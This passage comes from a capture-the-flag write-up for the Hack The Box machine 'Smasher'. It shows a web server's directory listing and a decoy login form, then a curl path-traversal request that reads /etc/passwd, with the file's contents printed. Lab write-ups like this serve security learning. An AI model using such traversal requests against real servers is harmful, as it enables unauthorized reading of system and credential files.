 ```bash	
	> User-Agent: curl/7.54.0
	> Accept: */*
	>
	< HTTP/1.1 200 OK
	< Server: shenfeng tiny-web-server
	< Content-Type: text/html
	* no chunk, no close, no size. Assume close to signal end
	<
	<html><head><style>body{font-family: monospace; font-size: 13px;}td {padding: 1.5px 6px;}</style></head><body><table>
	<tr><td><a href="index.html">index.html</a></td><td>2018-03-31 00:57</td><td>2.1K</td></tr>
	* Closing connection 0
	</table></body></html>%
```

Looks like the web server returns a file listing, which shows that there's only one file available in that dir, and it's index.html.

```html
<form method="post" action="index.php">
<div class="box">
<h1>Dashboard</h1>
<input type="email" name="email" value="email" onFocus="field_focus(this, 'email');" onblur="field_blur(this, 'email');" class="email" />

<input type="password" name="email" value="email" onFocus="field_focus(this, 'email');" onblur="field_blur(this, 'email');" class="email" />

<center><a href="#"><div class="btn">Login</div></a></center><!-- End Btn -->

</div> <!-- End Box -->

</form>

<p>For security reasons this server will be restarted every 60 seconds!!!</p>

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script>
```

Looks like a dead end with fake login form. Form action posts data to index.php, which doesn't exist on server. So, we have to look somewhere else.

Few minutes of checking around with gobuster gave me interesting insight by hitting points like //..////../etc/, i found this interesting

```bash
	[badarg:~/ctf/hackthebox/box/Smasher]$ curl http://10.10.10.89:1111//etc/passwd
	root:x:0:0:root:/root:/bin/bash
	daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	sys:x:3:3:sys:/dev:/usr/sbin/nologin
	sync:x:4:65534:sync:/bin:/bin/sync
	games:x:5:60:games:/usr/games:/usr/sbin/nologin
	man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
	lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
	mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
	news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
	uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
	proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
	list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
	irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
	gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
	nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```